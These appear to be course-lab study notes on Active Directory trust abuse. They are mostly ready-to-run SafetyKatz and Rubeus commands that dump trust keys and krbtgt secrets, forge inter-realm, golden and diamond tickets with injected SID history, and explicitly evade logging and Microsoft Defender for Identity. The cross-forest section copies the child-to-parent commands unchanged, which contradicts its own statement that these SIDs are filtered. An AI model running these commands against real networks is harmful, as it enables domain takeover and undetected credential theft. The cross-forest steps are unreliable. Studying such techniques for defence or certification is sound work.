 - Across Domains - Implicit two way trust relationship.
- Across Forests - Trust relationship needs to be established

# Across Domains
## Priv Esc - Enterprise Admins
- sIDHistory is a user attribute designed for scenarios where a user is moved from one domain to another. When a user's domain is changed, they get a new SID and the old SID is added to sIDHistory.
- sIDHistory can be abused in two ways of escalating privileges within a forest:
	- krbtgt hash of the child
	- Trust tickets

- Kerberos - Across Domain Trusts
![[Kerberos - Across Domain Trusts.png]]
### Priv Esc - Child to Parent using Trust Tickets
- So, what is required to forge trust tickets is, obviously, the trust key. Look for [In] trust key from child to parent on the DC.
```
SafetyKatz.exe "lsadump::trust /patch"
or
SafetyKatz.exe "lsadump::dcsync /user:dcorp\mcorp$"
or
SafetyKatz.exe "lsadump::lsa /patch"
```
- Forge an inter-realm TGT using Rubeus
```
C:\AD\Tools\Rubeus.exe silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:17e8f4d3f4b46e95048a66a5dd890ee3 /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /ldap /user:Administrator /nowrap
```
- Use the forged ticket
```
C:\AD\Tools\Rubeus.exe asktgs /service:http/mcorp-dc.MONEYCORP.LOCAL /dc:mcorp-dc.MONEYCORP.LOCAL /ptt /ticket:<FORGED TICKET>
```

### Priv Esc - Enterprise Admins - krbtgt Secret Abuse
- This is easier!
- We need to simply forge a Golden ticket (not an inter-realm TGT) with sIDHistory of the Enterprise Admins group.
- Due to the trust, the parent domain will trust the TGT.
```
SafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"
```

- Avoid suspicious logs and bypass MDI by using Domain Controller identity
```
SafetyKatz.exe "kerberos::golden /user:dcorp-dc$ /id:1000 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-516,S-1-5-9 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"


SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```
- S-1-5-21-2578538781-2508153159-3419410681-516 - Domain Controllers
- S-1-5-9 - Enterprise Domain Controllers

- Avoid suspicious logs and bypass MDI by using Domain Controller identity (using Rubeus)
```
Rubeus.exe golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /user:dcorp-dc$ /id:1000 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-516,S-1-5-9 /dc:DCORP-DC.dollarcorp.moneycorp.local /ptt


SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

- Diamond ticket with SID History will avoid suspicious logs on child DC and parent DC. Also bypasses MDI:
```
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:dcorp-dc$ /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:1000 /sids:S-1-5-21-335606122-960912869-3279953914-516,S-1-5-9 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt


SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

# Across Forests
- Across the trust any SIDhistory between 500 and 1000 will be filtered. That means we cannot escalate to enterprise admins across trust
- We require the trust key for the inter-forest trust from the DC that has the external trust:
```
SafetyKatz.exe -Command '"lsadump::trust /patch"'
or
SafetyKatz.exe -Command '"lsadump::lsa /patch"'
```
- Forge an inter-realm TGT using Rubeus
```
C:\AD\Tools\Rubeus.exe silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:17e8f4d3f4b46e95048a66a5dd890ee3 /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /ldap /user:Administrator /nowrap
```
- Use the forged ticket
```
C:\AD\Tools\Rubeus.exe asktgs /service:http/mcorp-dc.MONEYCORP.LOCAL /dc:mcorp-dc.MONEYCORP.LOCAL /ptt /ticket:<FORGED TICKET>
```
